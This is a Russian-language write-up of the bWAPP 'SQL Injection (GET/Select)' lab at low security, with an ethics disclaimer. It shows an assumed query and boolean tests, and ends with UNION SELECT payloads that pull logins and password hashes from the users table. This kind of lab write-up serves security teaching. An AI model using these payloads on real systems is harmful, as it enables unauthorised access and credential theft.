





# SQL Injection (GET/Select)
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Buggy Web Application (BWAPP) предлагает набор заданий, основанных на ***уязвимости внедрения SQL-кода***. (**A03:2021 - Инъекции**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий

# Цель
---



# Функциональность
---

Приложение позволяет выбрать фильм из предоставленного списка:



### Предполагаемый SQL-запрос:

```SQL
SELECT * FROM movies WHERE id="$variable"
```

# Эксплуатация
---

Тестирование со стандартной полезной нагрузкой `1' OR 1=1 -- ` вернуло ошибку, однако `1 OR 1=1 -- ` не вызвало сбоя:



Передача полезной нагрузки на основе `UNION`, ранее использовавшейся в ))))), не вызвала ошибок, но не позволила получить информацию из (вероятной) таблицы users:


Передача полезных нагрузок на основе `UNION` с добавлениями `ORDER BY` позволила получить данные из таблицы `users` путем изменения параметра `ORDER BY`:





## Финальные полезные нагрузки

Получение записей хэшированных паролей:

```SQL

1 UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 2 -- 

```

Получение записей логинов:

```SQL

1 UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 
2 -- 

```